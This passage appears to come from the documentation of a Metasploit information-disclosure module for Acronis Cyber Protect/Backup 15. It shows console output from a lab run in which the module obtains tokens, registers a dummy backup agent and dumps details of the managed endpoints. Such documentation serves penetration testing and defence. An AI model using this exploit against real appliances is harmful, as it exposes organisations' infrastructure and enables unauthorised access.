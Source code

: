 ```msf
[*] OS: GNU/Linux
[*] ARCH: linux
[*] ONLINE: true
[*] Auxiliary module execution completed
```
### Acronis Cyber Backup 15 build 27009 VMware appliance
```msf
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > run
[*] Running module against 192.168.201.6

[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] Acronis Cyber Protect/Backup 15.0.27009 - VULNERABLE
[*] Retrieve all managed endpoint configuration details registered at the Acronis Cyber Protect/Backup appliance.
[+] Configuration details are successfully saved in json format to /root/.msf4/loot/20241023093629_default_192.168.201.6_acronis.cyber.pr_725453.bin
[*] List the managed endpoints registered at the Acronis Cyber Protect/Backup appliance.
[*] ----------------------------------------
[+] hostId: D287E868-EDBB-4FE9-85A9-F928AA10EE5D
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.EA9A6E26-38B5-4727-9957-FD7CDD7BF2CC@D287E868-EDBB-4FE9-85A9-F928AA10EE5D.disks
[*] type: machine
[*] hostname: AcronisAppliance-FCD94
[*] IP: 192.168.201.6
[*] OS: Linux: CentOS Linux release 7.6.1810 (Core)
[*] ARCH: linux
[*] ONLINE: true
[*] ----------------------------------------
[+] hostId: C0FBDC6F-A5FE-4710-ADE8-99B3F8A7CE1E
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.1100195A-112E-4904-A933-264C2D12A4A5@C0FBDC6F-A5FE-4710-ADE8-99B3F8A7CE1E.disks
[*] type: machine
[*] hostname: victim.evil.corp
[*] IP: 192.168.201.2
[*] OS: Microsoft Windows Server 2022 Standard
[*] ARCH: windows
[*] ONLINE: false
[*] Auxiliary module execution completed
```

## Limitations
No limitations.

